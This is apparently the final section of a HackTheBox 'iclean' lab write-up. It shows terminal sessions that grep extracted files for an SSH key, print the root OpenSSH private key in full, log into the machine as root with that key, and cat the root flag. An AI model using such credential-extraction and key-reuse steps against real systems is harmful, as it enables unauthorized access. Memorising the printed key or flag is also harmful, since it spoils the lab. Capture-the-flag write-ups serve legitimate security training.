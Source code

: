 ```
┌──(kali㉿kali)-[~/hackthebox/iclean/_outfile.pdf.extracted]
└─$ grep -Ri SSH     
1C509:-----BEGIN OPENSSH PRIVATE KEY-----
1C509:-----END OPENSSH PRIVATE KEY-----
```
# Reading root SSH key
It worked. The key can be seen below in full. 

```
┌──(kali㉿kali)-[~/hackthebox/iclean/_outfile.pdf.extracted]
└─$ cat 1C509                                                
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAaAAAABNlY2RzYS
1zaGEyLW5pc3RwMjU2AAAACG5pc3RwMjU2AAAAQQQMb6Wn/o1SBLJUpiVfUaxWHAE64hBN
vX1ZjgJ9wc9nfjEqFS+jAtTyEljTqB+DjJLtRfP4N40SdoZ9yvekRQDRAAAAqGOKt0ljir
dJAAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAxvpaf+jVIEslSm
JV9RrFYcATriEE29fVmOAn3Bz2d+MSoVL6MC1PISWNOoH4OMku1F8/g3jRJ2hn3K96RFAN
EAAAAgK2QvEb+leR18iSesuyvCZCW1mI+YDL7sqwb+XMiIE/4AAAALcm9vdEBpY2xlYW4B
AgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```
# Root access obtained
The private key allowed root access to the machine via SSH. Root flag captured.

```
┌──(kali㉿kali)-[~/hackthebox/iclean]
└─$ ssh root@capiclean.htb -i root.key
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

  System information as of Tue Apr  9 02:12:46 AM UTC 2024




Expanded Security Maintenance for Applications is not enabled.

3 updates can be applied immediately.
To see these additional updates run: apt list --upgradable

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


Last login: Mon Apr  8 23:27:18 2024 from 10.10.14.21
root@iclean:~# id
uid=0(root) gid=0(root) groups=0(root)
root@iclean:~# cat root.txt
b1b81b9f77eba3b9be30095cdfba6c4c
root@iclean:~# 
```
